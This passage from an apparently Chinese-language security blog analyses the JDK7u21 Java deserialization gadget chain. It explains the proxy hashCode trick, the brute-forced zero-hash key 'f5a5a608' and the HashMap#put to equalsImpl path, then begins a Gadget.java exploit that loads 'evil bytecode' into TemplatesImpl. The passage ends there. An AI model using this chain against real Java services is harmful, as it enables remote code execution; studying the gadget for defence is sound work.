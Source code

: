 >
> `但对象templates的hashcode是一个native方法，每次计算都会变动。`==所以现在只能看Proxy的hash计算了，需要让proxy的hash动态等于tempaltesimpl的hash==
>
> ```java
> private int hashCodeImpl() {
>  int var1 = 0;
> 
>  Entry var3;
>  for(Iterator var2 = this.memberValues.entrySet().iterator(); var2.hasNext(); var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())) {
>      var3 = (Entry)var2.next();
>  }
> 
>  return var1;
> }
> ```
>
> 它的计算方式就是`累加 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())`
>
> `关键点：`由于0异或任何等于任何数，此时如果让key的hash等于0，而value等于templatesImpl，那最后不就一直相等了嘛
>
> ```java
> for (long i = 0; i < 99999999L; i++) {
>  if (Long.toHexString(i).hashCode() == 0) {
>      System.out.println(Long.toHexString(i));
>  }
> }
> ```
>
> 得到了一个`f5a5a608`,使得`((String)var3.getKey()).hashCode()`==0,所以我们只需要将`AnnotationHandler`中的Map添加一组`map.put("f5a5a608", templates);`即可。

**5.利用逻辑梳理**

`hashMap#put->hashcode相等，所以直接调用AnnotationInvocationHandler#equalsImpl->再就是上面分析的利用`


![upload successful](/images/imgs/3.png)



**6.附上分析结果（有些赘余，此处略优化**

```java
package sec.aur0ra;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.Templates;
import javax.xml.transform.TransformerConfigurationException;
import java.io.ByteArrayInputStream;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.annotation.Annotation;
import java.lang.annotation.Retention;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class Gadget {
    public static void main(String[] args) throws NoSuchFieldException, IOException, IllegalAccessException, TransformerConfigurationException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException {
        //read evil bytecode-1
```